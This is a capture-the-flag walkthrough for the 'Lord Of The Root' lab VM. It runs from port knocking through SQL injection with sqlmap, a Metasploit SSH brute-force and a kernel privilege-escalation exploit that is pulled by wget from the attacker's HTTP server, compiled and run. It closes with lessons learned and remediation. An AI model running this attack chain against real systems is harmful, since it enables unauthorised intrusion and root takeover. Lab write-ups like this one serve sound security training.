




# Lord Of The Root: 1.0.1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.101 |
| **Difficulty** | Medium |
| **OS** | Linux (Ubuntu 14.04) |
| **Goal** | root flag (`/root/Flag.txt`) |
| **Source** | [HackingArticles](http://www.hackingarticles.in/hack-lord-root-vm-ctf-challenge/) |

## Attack Summary

Port knocking unlocks a hidden HTTP service on port 1337. A Base64-encoded hint in `robots.txt` reveals a login portal vulnerable to SQL injection. SQLMap dumps credentials, which are used in an SSH brute-force. Once inside as `smeagol`, a local kernel exploit (CVE covered by exploit 39166) elevates privileges to root.

## Methodology

1. Host discovery with `netdiscover`
2. Port knocking on ports 1, 2, 3 to unlock port 1337 (HTTP)
3. Web enumeration — `robots.txt` Base64 hint decodes to hidden directory
4. SQL injection via SQLMap to dump database credentials
5. SSH brute-force with Metasploit `ssh_login`
6. Shell stabilization via Python PTY
7. Kernel exploit (39166.c) for privilege escalation to root

## Step 1: Host Discovery

```bash
netdiscover -r 192.168.1.0/24
```

Target identified at `192.168.1.101`.

## Step 2: Initial Port Scan

```bash
nmap -p- -A 192.168.1.101
```

Only port 22 (SSH) is open. The SSH banner reads: **"Knock Friend To Enter"** with the hint **"Easy as 123"** — this signals port knocking on ports 1, 2, 3.


## Step 3: Port Knocking

```bash
# Knock on ports 1, 2, 3 in sequence
nmap -r -Pn -p 1,2,3 192.168.1.101

# Rescan to confirm new open port
nmap -p- -A 192.168.1.101
```

Port **1337 (HTTP)** is now open after the knock sequence.



## Step 4: Web Enumeration

Browsing `http://192.168.1.101:1337/` shows a single image. Checking `robots.txt`:

```
http://192.168.1.101:1337/robots.txt
```

The file contains a Base64-encoded value. Decode it twice:

```bash
echo "<base64_value>" | base64 -d | base64 -d
```

This reveals the hidden path: `/978345210/index.php` — a login portal.

## Step 5: SQL Injection with SQLMap

```bash
sqlmap -u 'http://192.168.1.101:1337/978345210/index.php' \
  --forms --dbs --risk=3 --level=5 --threads=4 --batch
```

SQLMap finds the database and dumps usernames and passwords. Save the output to `user.txt` and `pass.txt`.



## Step 6: SSH Brute-Force with Metasploit

```bash
msfconsole -q
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.101
set USER_FILE /root/Desktop/user.txt
set PASS_FILE /root/Desktop/pass.txt
set STOP_ON_SUCCESS true
exploit
```

Valid credentials found: **`smeagol:MyPreciousR00t`**

A remote shell session is established.

## Step 7: Shell Stabilization

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

## Step 8: Privilege Escalation — Kernel Exploit

Check the OS version:

```bash
lsb_release -a
# Ubuntu 14.04
```

Search for kernel exploits:

```bash
searchsploit ubuntu 14.04
```

Exploit **39166.c** is identified. Transfer it from the attacker machine:

```bash
# On attacker (serve file)
python -m SimpleHTTPServer 80

# On target (download and compile)
wget http://192.168.1.108/39166.c
gcc 39166.c -o shell
chmod 777 shell
./shell
```



## Step 9: Root Flag

```bash
whoami
# root
cd /root
ls
cat Flag.txt
```



## Lessons Learned

- Port knocking is a simple but effective way to hide services from automated scanners. Sequential knock sequences are detectable by analyzing TCP SYN traffic patterns.
- `robots.txt` often contains more information than intended. Encoding the hint in Base64 provides minimal security.
- Login forms without parameterized queries are trivially vulnerable to SQLMap's automated injection.
- Ubuntu 14.04 has several well-known local privilege escalation vulnerabilities due to its aging kernel; always patch or decommission old systems.

## Remediation

| Vulnerability | Fix |
|---|---|
| Port-knocking hint in SSH banner | Remove the hint entirely; use a silent knock |
| Base64 path in `robots.txt` | Never use `robots.txt` to hide paths; use proper access controls |
| SQL injection in login form | Use prepared statements and parameterized queries |
| Weak/reused credentials | Enforce password complexity and unique credentials per service |
| Outdated kernel (Ubuntu 14.04) | Upgrade to a supported OS and apply all security patches |
